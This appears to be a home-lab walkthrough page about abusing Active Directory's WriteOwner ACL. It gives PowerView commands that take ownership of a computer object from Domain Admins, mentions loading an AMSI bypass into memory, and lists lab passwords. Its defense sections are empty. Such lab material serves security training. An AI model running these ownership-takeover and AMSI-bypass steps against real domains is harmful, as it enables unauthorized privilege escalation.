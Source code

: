 # Write Owner

## Configuring

1. Login to `DC03` with the Administrator user and the password `Welcome01!`.
2. Open the "Active Directory Users and Computers" administration tool.

![](<../../../.gitbook/assets/image (67) (1).png>)

3\. Click on "View" and enable "Advanced Features

![](<../../../.gitbook/assets/image (48) (1).png>)

4\. Click on the "Computers" directory and right click on the "DATA01" computer and select "Properties". Then select "Security" to see the ACL's.

5\. Click on "Add" and type `sa_sql`.

![](<../../../.gitbook/assets/image (11).png>)

6\. Select the "sa\_sql" user and click "Advanced". Then select the "sa\_sql" once again and click on "Edit". Then select "Modify Owner".

![](<../../../.gitbook/assets/image (15).png>)

7\. We can quickly run BloodHound to check if the correct permissions are applied to the `sa_sql` user:

![](<../../../.gitbook/assets/image (1).png>)

![](<../../../.gitbook/assets/image (61).png>)

It is configured correctly!

## Attacking

### How it works

If a domain object has the WriteOwner ACL, the object can change the owner of the object. In this case the user `SA_SQL` can change the owner of the computerobject `DATA01`. Once you are "Owner" of a object, you can change the DACL of the object.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

1. Download PowerView on the kali machine and host it on a webserver:

```
wget https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
python3 -m http.server 8090
```

2\. Login to `WS01` as Richard with the password `Sample123`.

3\. Start PowerShell and download and execute an amsi and PowerView in memory:

![](<../../../.gitbook/assets/image (70).png>)

4\. In the page DACL-Abuses I showed you how to check for ACL's using BloodHound. We will abuse the "Write Owner" ACL `sa_sql` has on `DATA01`.

![](<../../../.gitbook/assets/image (53).png>)

5\. With PowerView we can query the current owner of the computerobject `DATA01`. Since we are queering data from another domain, we will have to provide a username and password for that domain. Create a credential object using the `get-credential` cmdlet:

```
$creds = Get-Credential
```

Then we can use PowerView to query the Domaincontroller from `secure.local` for the domain-object and retrieve the samaccountname and Owner attribute. We will receive a SID which we need to resolve aswell;

```
Get-DomainObject -Identity data01 -SecurityMasks Owner -Domain secure.local -Credential $creds -Server 10.0.0.100 | select samaccountname, Owner
Get-DomainObject -Identity S-1-5-21-1498997062-1091976085-892328878-512 -Domain secure.local -Credential $creds -Server 10.0.0.100
```

![](<../../../.gitbook/assets/image (32).png>)

The current owner of the computerobject `DATA01` is the group `Domain Admins`.

6\. With PowerView we can change the owner of the object using the `Set-DomainObjectOwner` cmdlet.

```
Set-DomainObjectOwner -Domain secure.local -Credential $creds -Server 10.0.0.100 -Identity DATA01 -OwnerIdentity sa_sql -Verbose
```

![](<../../../.gitbook/assets/image (69).png>)

7\. We didn't receive any errors, to lets use the same queries again to query the owner of the computerobject DATA01;

![](<../../../.gitbook/assets/image (21).png>)

8\. We successfully changed the owner of the computerobject from `Domain Admins` to `sa_ql`.

## Defending

### Recommendations



### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writeowner" %}
